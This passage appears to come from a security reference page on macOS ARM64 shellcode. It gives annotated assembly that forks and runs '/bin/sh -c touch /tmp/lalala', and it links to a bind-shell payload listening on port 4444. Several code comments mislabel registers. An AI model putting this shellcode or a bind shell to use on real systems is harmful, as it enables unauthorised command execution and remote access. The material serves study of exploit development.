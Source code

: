 #### Invoke command with sh from a fork so the main process is not killed

```armasm
.section __TEXT,__text     ; Begin a new section of type __TEXT and name __text
.global _main              ; Declare a global symbol _main
.align 2                   ; Align the beginning of the following code to a 4-byte boundary

_main:
    ; Prepare the arguments for the fork syscall
    mov x16, #2            ; Load the syscall number for fork (2) into x8
    svc 0                  ; Make the syscall
    cmp x1, #0             ; In macOS, if x1 == 0, it's parent process, https://opensource.apple.com/source/xnu/xnu-7195.81.3/libsyscall/custom/__fork.s.auto.html
    beq _loop              ; If not child process, loop

    ; Prepare the arguments for the execve syscall

    sub sp, sp, #64        ; Allocate space on the stack
    mov x1, sp             ; x1 will hold the address of the argument array
    adr x0, sh_path
    str x0, [x1]           ; Store the address of "/bin/sh" as the first argument
    adr x0, sh_c_option    ; Get the address of "-c"
    str x0, [x1, #8]       ; Store the address of "-c" as the second argument
    adr x0, touch_command  ; Get the address of "touch /tmp/lalala"
    str x0, [x1, #16]      ; Store the address of "touch /tmp/lalala" as the third argument
    str xzr, [x1, #24]     ; Store NULL as the fourth argument (end of arguments)

    adr x0, sh_path
    mov x2, xzr            ; Clear x2 to hold NULL (no environment variables)
    mov x16, #59           ; Load the syscall number for execve (59) into x8
    svc 0                  ; Make the syscall


_exit:
    mov x16, #1            ; Load the syscall number for exit (1) into x8
    mov x0, #0             ; Set exit status code to 0
    svc 0                  ; Make the syscall

_loop: b _loop

sh_path: .asciz "/bin/sh"
.align 2
sh_c_option: .asciz "-c"
.align 2
touch_command: .asciz "touch /tmp/lalala"
```

#### Bind shell

Bind shell from [https://raw.githubusercontent.com/daem0nc0re/macOS_ARM64_Shellcode/master/bindshell.s](https://raw.githubusercontent.com/daem0nc0re/macOS_ARM64_Shellcode/master/bindshell.s) in **port 4444**
